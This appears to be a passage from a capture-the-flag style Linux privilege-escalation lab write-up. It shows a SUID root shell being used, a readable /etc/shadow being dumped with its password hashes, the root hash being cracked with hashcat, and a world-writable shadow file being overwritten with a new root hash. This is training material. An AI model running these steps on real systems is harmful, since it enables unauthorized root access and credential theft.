 ```console
$ /tmp/rootbash -p
rootbash-4.1# whoami
root
rootbash-4.1# rm /tmp/rootbash
```

damnnnnn. The last command is removeing the the script. dont for get to romove it guys!!

# TASK 3: Weak File Permissions - Readable /etc/shadow 
```console
user@debian:~$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```
on my kali
```console
bibo318@parrot:~/LinuxPrivEsc$ echo "root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::" > root.txt
bibo318@parrot:~/LinuxPrivEsc$ hashcat -a 0 -m 1800 -o cracked.txt root.txt /usr/share/wordlists/rockyou.txt --force
bibo318@parrot:~/LinuxPrivEsc$ cat cracked.txt 
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:XXXXXXXXXXX
```
find out what XXXXXXXX is :P. GLHF

# Weak File Permissions - Writable /etc/shadow 
```console
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```
damn we have write permission
```console
user@debian:~$ mkpasswd -m sha-512 kurohatwashere
$6$G5cFZMg03v81$/MHuRxqSlP8yFCqHOFIfQRXPwsor32wwUoPdE791lONV7YaviZQKi830I0TLuGj/kOj6OO9XI78Vx4CpYUGST0
user@debian:~$ nano /etc/shadow # replace root password (from 1st : to 2nd :) with the generated password
```